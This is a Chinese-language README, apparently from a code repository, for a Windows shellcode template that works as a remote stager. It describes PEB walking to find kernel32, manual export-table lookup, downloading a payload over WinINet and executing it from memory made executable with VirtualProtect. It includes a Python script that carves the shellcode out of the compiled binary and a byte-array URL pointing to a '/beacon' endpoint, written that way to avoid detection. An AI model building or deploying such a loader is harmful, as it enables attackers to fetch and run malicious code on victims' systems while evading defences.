 





两年前用于制作shellcode的模板，仅用于学习和参考

## 特征

1. **动态加载系统库和函数**

   使用 `LoadLibraryA` 和 `GetProcAddress` 动态加载 `kernel32.dll` 和 `wininet.dll`，获取一些网络相关的函数。

2. **通过 PEB 获取 Kernel32.dll 基址**

   不同于直接调用 Windows API，它通过访问 PEB（进程环境块）来查找 Kernel32.dll 的地址。

3. **支持 x64 和 x86 架构**

   使用条件编译 (`_AMD64_`) 根据平台的不同使用不同的方式获取 DLL 和导出表地址。

4. **动态获取导出函数的地址**

   代码实现了一个 `GetProcAddress_Func` 函数，遍历 DLL 的导出表，找到所需的函数。

5. **动态堆内存读写**

   远程服务器下载内容，并将其存储在分配的内存区域中。通过指针运算将

   `addr + total_bytes` 写入指定内存的偏移位置。

6.  **加载和调用网络及内存相关的函数**

   使用 `InternetOpenA`、`InternetOpenUrlA`、`InternetReadFile` 等网络 API。

   使用 `VirtualAlloc` 和 `VirtualProtect` 进行内存管理，分配和更改内存区域的保护属性，使用指针 执行Shellcode。

   

## 说明

1.编译出来的exe，可以直接当作stager使用（远程shellcode加载器）

2.提取shellcode：

偏移量从0x400到0x7D0为.Text段的内容，用python脚本将这段内容提取出来

```python
import random

def extract():
    with open('shellcodeCode.exe','rb+') as file:
        with open('shellcode.bin', 'wb+') as save:
            save.write(bytes(file.read()[0x400:0x7D0]))
       
if __name__ == '__main__':
    extract()

```

URL只允许BYTE的字符数组形式的字符串，类似于这样：

```C++
 BYTE url[] = { 'h', 't', 't', 'p', ':', '/', '/', '1', '2', '7', '.', '0', '.', '0', '.', '1', ':', '8', '1', '8', '1', '/', 'b', 'e', 'a', 'c', 'o', 'n', 0 };
```

- 每个字符都用单引号 `''` 包裹，逐个字符作为 `BYTE`（即 `unsigned char`）存储在数组中。
- **字符串以 0 结尾**（即 **空字符 `0`**），这是 C 语言中的字符串终止符，标志字符串结束。